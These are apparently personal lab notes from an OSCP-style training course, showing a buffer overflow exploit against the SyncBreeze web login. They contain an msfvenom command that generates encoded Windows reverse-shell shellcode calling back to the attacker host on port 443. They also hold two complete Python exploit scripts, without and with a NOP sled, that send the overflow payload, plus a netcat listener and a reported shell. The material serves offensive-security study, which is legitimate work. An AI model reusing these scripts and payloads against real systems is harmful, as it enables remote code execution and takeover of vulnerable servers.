 11.2.9.1

# 11.2.9.1
## 11.2.9.1.1. Update your PoC to include a working payload.

Run msfvenom to create shellcode
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.214 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`
![3ea25ba718e8acd49725d4d47c0c9381.png](:/c703c395a5694f1b8c419712eefcdb07)


## 11.2.9.1.2. Attempt to execute your exploit without using a NOP sled and observe the decoder corrupting the stack.

Here is the code with shellcode but **no NOPs**
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 9_add_shellcode_no_nops.py 
#!/usr/bin/python
import socket
import sys

shellcode = ("\xbe\xdc\x5a\x2f\xc5\xda\xde\xd9\x74\x24\xf4\x5a\x33\xc9\xb1"
"\x52\x31\x72\x12\x03\x72\x12\x83\x1e\x5e\xcd\x30\x62\xb7\x93"
"\xbb\x9a\x48\xf4\x32\x7f\x79\x34\x20\xf4\x2a\x84\x22\x58\xc7"
"\x6f\x66\x48\x5c\x1d\xaf\x7f\xd5\xa8\x89\x4e\xe6\x81\xea\xd1"
"\x64\xd8\x3e\x31\x54\x13\x33\x30\x91\x4e\xbe\x60\x4a\x04\x6d"
"\x94\xff\x50\xae\x1f\xb3\x75\xb6\xfc\x04\x77\x97\x53\x1e\x2e"
"\x37\x52\xf3\x5a\x7e\x4c\x10\x66\xc8\xe7\xe2\x1c\xcb\x21\x3b"
"\xdc\x60\x0c\xf3\x2f\x78\x49\x34\xd0\x0f\xa3\x46\x6d\x08\x70"
"\x34\xa9\x9d\x62\x9e\x3a\x05\x4e\x1e\xee\xd0\x05\x2c\x5b\x96"
"\x41\x31\x5a\x7b\xfa\x4d\xd7\x7a\x2c\xc4\xa3\x58\xe8\x8c\x70"
"\xc0\xa9\x68\xd6\xfd\xa9\xd2\x87\x5b\xa2\xff\xdc\xd1\xe9\x97"
"\x11\xd8\x11\x68\x3e\x6b\x62\x5a\xe1\xc7\xec\xd6\x6a\xce\xeb"
"\x19\x41\xb6\x63\xe4\x6a\xc7\xaa\x23\x3e\x97\xc4\x82\x3f\x7c"
"\x14\x2a\xea\xd3\x44\x84\x45\x94\x34\x64\x36\x7c\x5e\x6b\x69"
"\x9c\x61\xa1\x02\x37\x98\x22\xed\x60\xd5\x64\x85\x72\x19\x88"
"\xed\xfa\xff\xe0\x01\xab\xa8\x9c\xb8\xf6\x22\x3c\x44\x2d\x4f"
"\x7e\xce\xc2\xb0\x31\x27\xae\xa2\xa6\xc7\xe5\x98\x61\xd7\xd3"
"\xb4\xee\x4a\xb8\x44\x78\x77\x17\x13\x2d\x49\x6e\xf1\xc3\xf0"
"\xd8\xe7\x19\x64\x22\xa3\xc5\x55\xad\x2a\x8b\xe2\x89\x3c\x55"
"\xea\x95\x68\x09\xbd\x43\xc6\xef\x17\x22\xb0\xb9\xc4\xec\x54"
"\x3f\x27\x2f\x22\x40\x62\xd9\xca\xf1\xdb\x9c\xf5\x3e\x8c\x28"
"\x8e\x22\x2c\xd6\x45\xe7\x5c\x9d\xc7\x4e\xf5\x78\x92\xd2\x98"
"\x7a\x49\x10\xa5\xf8\x7b\xe9\x52\xe0\x0e\xec\x1f\xa6\xe3\x9c"
"\x30\x43\x03\x32\x30\x46")

try:
    print "\nSending evil buffer..."

    filler = "A" * 780
    eip = "\x83\x0c\x09\x10"
    offset = "C" * 4
    
    inputBuffer = filler + eip + offset + shellcode
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.214.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Referer: http://192.168.214.10/login\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()
    print "\nDone!"

except:
    print "Could not connect!"
    sys.exit()
```

The crash
![60ad439955284f28074d76d2089d8714.png](:/541eb6a9dacb4d05af305564520c360b)


## 11.2.9.1.3. Add a NOP sled to your PoC and obtain a shell from SyncBreeze.
Here is the code with a NOP sled
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 9_add_shellcode_yes_nops.py 
#!/usr/bin/python
import socket
import sys

# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.214 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
shellcode = ("\xbe\xdc\x5a\x2f\xc5\xda\xde\xd9\x74\x24\xf4\x5a\x33\xc9\xb1"
"\x52\x31\x72\x12\x03\x72\x12\x83\x1e\x5e\xcd\x30\x62\xb7\x93"
"\xbb\x9a\x48\xf4\x32\x7f\x79\x34\x20\xf4\x2a\x84\x22\x58\xc7"
"\x6f\x66\x48\x5c\x1d\xaf\x7f\xd5\xa8\x89\x4e\xe6\x81\xea\xd1"
"\x64\xd8\x3e\x31\x54\x13\x33\x30\x91\x4e\xbe\x60\x4a\x04\x6d"
"\x94\xff\x50\xae\x1f\xb3\x75\xb6\xfc\x04\x77\x97\x53\x1e\x2e"
"\x37\x52\xf3\x5a\x7e\x4c\x10\x66\xc8\xe7\xe2\x1c\xcb\x21\x3b"
"\xdc\x60\x0c\xf3\x2f\x78\x49\x34\xd0\x0f\xa3\x46\x6d\x08\x70"
"\x34\xa9\x9d\x62\x9e\x3a\x05\x4e\x1e\xee\xd0\x05\x2c\x5b\x96"
"\x41\x31\x5a\x7b\xfa\x4d\xd7\x7a\x2c\xc4\xa3\x58\xe8\x8c\x70"
"\xc0\xa9\x68\xd6\xfd\xa9\xd2\x87\x5b\xa2\xff\xdc\xd1\xe9\x97"
"\x11\xd8\x11\x68\x3e\x6b\x62\x5a\xe1\xc7\xec\xd6\x6a\xce\xeb"
"\x19\x41\xb6\x63\xe4\x6a\xc7\xaa\x23\x3e\x97\xc4\x82\x3f\x7c"
"\x14\x2a\xea\xd3\x44\x84\x45\x94\x34\x64\x36\x7c\x5e\x6b\x69"
"\x9c\x61\xa1\x02\x37\x98\x22\xed\x60\xd5\x64\x85\x72\x19\x88"
"\xed\xfa\xff\xe0\x01\xab\xa8\x9c\xb8\xf6\x22\x3c\x44\x2d\x4f"
"\x7e\xce\xc2\xb0\x31\x27\xae\xa2\xa6\xc7\xe5\x98\x61\xd7\xd3"
"\xb4\xee\x4a\xb8\x44\x78\x77\x17\x13\x2d\x49\x6e\xf1\xc3\xf0"
"\xd8\xe7\x19\x64\x22\xa3\xc5\x55\xad\x2a\x8b\xe2\x89\x3c\x55"
"\xea\x95\x68\x09\xbd\x43\xc6\xef\x17\x22\xb0\xb9\xc4\xec\x54"
"\x3f\x27\x2f\x22\x40\x62\xd9\xca\xf1\xdb\x9c\xf5\x3e\x8c\x28"
"\x8e\x22\x2c\xd6\x45\xe7\x5c\x9d\xc7\x4e\xf5\x78\x92\xd2\x98"
"\x7a\x49\x10\xa5\xf8\x7b\xe9\x52\xe0\x0e\xec\x1f\xa6\xe3\x9c"
"\x30\x43\x03\x32\x30\x46")

try:
    print "\nSending evil buffer..."

    filler = "A" * 780
    eip = "\x83\x0c\x09\x10"
    offset = "C" * 4
    nops = "\x90" * 10
    
    inputBuffer = filler + eip + offset + nops + shellcode
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.214.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Referer: http://192.168.214.10/login\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()
    print "\nDone!"

except:
    print "Could not connect!"
    sys.exit()

```

Start a Netcat listener on port 443
`sudo nc -lvnp 443`
![71ce9ac346d85914267035b83cdad59b.png](:/0f15f5eca537419dac928d0380d6bc94)

We have a shell
![409dec5c92efac016f59fd3835f411db.png](:/b9326bf718244ffab9a736851b2dc21a)

id: 337464fd59794413aa9416d43ef950da
parent_id: 84e5b2df7f67405abb15708e24e25293
created_time: 2020-09-27T10:19:49.068Z
updated_time: 2020-09-27T10:19:50.673Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-27T10:19:49.068Z
user_updated_time: 2020-09-27T10:19:50.673Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1